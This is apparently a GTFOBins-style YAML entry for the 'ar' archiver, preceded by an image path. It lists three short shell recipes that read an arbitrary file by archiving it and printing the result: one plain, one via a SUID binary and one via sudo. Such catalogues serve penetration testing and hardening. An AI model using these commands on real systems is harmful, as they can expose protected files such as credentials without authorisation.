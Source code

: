 description: The file appears amid the binary content of the archive.
functions:
  file-read:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        ar r "$TF" "$LFILE"
        cat "$TF"
  suid:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        ./ar r "$TF" "$LFILE"
        cat "$TF"
  sudo:
    - code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        sudo ar r "$TF" "$LFILE"
        cat "$TF"
---
